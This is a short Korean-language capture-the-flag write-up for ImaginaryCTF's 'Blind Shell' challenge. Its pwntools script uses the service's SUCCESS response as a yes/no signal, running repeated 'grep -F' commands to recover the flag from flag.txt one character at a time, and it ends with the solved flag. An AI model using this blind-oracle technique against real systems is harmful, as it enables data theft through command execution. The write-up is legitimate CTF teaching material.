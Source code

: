 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-05-18-17-17-03.png)

첨부파일

[CABD-blind.py](https://github.com/2jinu/CTFnWargame/blob/main/CTF/ImaginaryCTF%20Round9/Blind%20Shell/file/CABD-blind.py)

# **Write-Up**

cmd의 결과 값이 있을 경우 SUCCESS문자열이 출력된다. 따라서 flag파일을 찾고 grep 명령어를 통해 flag를 획득한다.

```
# man grep
-F, --fixed-strings
              Interpret PATTERN as a list of fixed strings (instead of regular expressions), separated by newlines, any of which is to be matched.
```

다음과 같은 python코드로 flag를 획득할 수 있다.

```py
import string
from pwn import *

p = remote("oreos.ctfchallenge.ga", 12345)

chars = list(string.printable)
flag = "ictf{"
chars.remove('\n')
while True:
    for char in chars:
        p.recvuntil(b'>>> ')
        p.sendline("grep -F \'" + flag + char + "\' flag.txt")
        if(p.recvline() == b'SUCCESS\n'):
            flag += char
            if(char == "}"): print(flag); break
            else: continue
    if(flag[-1] == "}"): break
```


# **FLAG**

**ictf{g01n8_1n_bl!nd?n0t_@_pr0bl3m!}**